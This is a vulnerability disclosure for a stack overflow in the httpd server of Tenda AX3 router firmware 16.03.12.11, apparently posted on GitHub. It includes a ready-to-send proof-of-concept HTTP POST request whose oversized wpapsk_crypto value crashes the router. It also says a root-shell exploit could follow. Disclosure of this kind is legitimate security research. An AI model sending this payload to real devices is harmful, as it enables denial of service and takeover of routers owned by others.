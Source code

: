 # TENDA AX3 16.03.12.11 stack overflow Vulnerabilty in **wlSetExternParameter**

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3476.html

<img src="img/0.jpg" style="zoom: 50%;" />

## Vulnerability Description
The vulnerability is detected at `/bin/httpd`.
There is a stack overflow vulnerability in function `wlSetExternParameter`, in which the `wpapsk_cryptovalue` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. The vulnerability can be triggered following `fromSetWirelessRepeat->wlSetExternParameter`.

<img src="img/3.jpg" style="zoom: 42%;" />

<img src="img/2.jpg" style="zoom:50%;" />

## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see the router crash, and finally we can write an exp to get a root shell.
